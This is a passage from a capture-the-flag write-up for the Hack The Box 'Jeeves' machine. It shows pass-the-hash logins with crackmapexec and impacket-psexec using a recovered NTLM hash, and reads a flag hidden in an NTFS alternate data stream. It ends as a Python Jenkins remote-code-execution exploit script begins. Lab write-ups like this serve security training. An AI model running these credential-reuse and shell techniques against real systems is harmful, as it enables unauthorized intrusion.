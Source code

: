 ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%2010.png)

We found a hash in the database. I will try to use it to log in as Administrator. I will use psexec to login.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%2011.png)

```bash
crackmapexec smb 10.10.10.63 -u "Administrator" -H "aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00"
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%2012.png)

```bash
impacket-psexec Administrator@10.10.10.63  -hashes "aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00"
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%2013.png)

# Getting the root flag

There is the `hm.txt` file on the Desktop under the Administrator user that says to look for the root flag elsewhere, further down.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%2014.png)

We will then look at alternative data streams:

```bash
dir /R
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Jeeves/Untitled%2015.png)

We verify that there is a data stream. To read the content we will use the more:

```bash
more < hm.txt:root.txt
```

# Get Shell - Script Automation

This is a script in python to exploit this machine.

`jeeves-getshell.py`

```python
#! /usr/bin/env python3

#### Title: Exploit Get Shell - RCE - Jenkins
#### Author: 0xEtern4lW0lf
#### Created: 23 Dez 2022
#### Description: Explore Jenkins - GetShell - Jeeves - HTB

#### ========= MODULES =========

import argparse
import requests
import socket, telnetlib
from threading import Thread

#### ========= VARIABLE =========

#### COLORS ####
RED = "\033[1;91m"
```